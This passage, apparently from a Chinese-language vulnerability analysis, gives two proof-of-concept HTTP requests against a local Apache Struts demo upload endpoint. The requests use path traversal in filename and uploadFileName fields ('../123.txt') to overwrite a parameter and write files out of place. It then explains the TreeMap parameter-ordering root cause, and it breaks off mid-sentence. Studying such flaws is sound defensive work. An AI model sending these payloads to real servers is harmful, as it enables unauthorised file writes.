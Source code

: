 ```
```

# 漏洞利用

两种POC

```
POST /apachestrutsdemo_war_exploded/upload.action HTTP/1.1
Host: 127.0.0.1:8082
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 188
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="../1.txt"
Content-Type: text/plain

1aaa
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--
Content-Disposition: form-data; name="uploadFileName"

../123.txt
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--
```

```
POST /apachestrutsdemo_war_exploded/upload.action?uploadFileName=../123.txt HTTP/1.1
Host: 127.0.0.1:8082
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 188
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="../1.txt"
Content-Type: text/plain

1aaa
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--
```

**总结**

造成变量覆盖的根本原因就是 `acceptableParameters` 为 `TreeMap`,  Ascii 码大的值靠前排

根据 POC, 在 `ParametersInterceptor#setParameters` 中循环调用 `setter` 赋值的顺序为
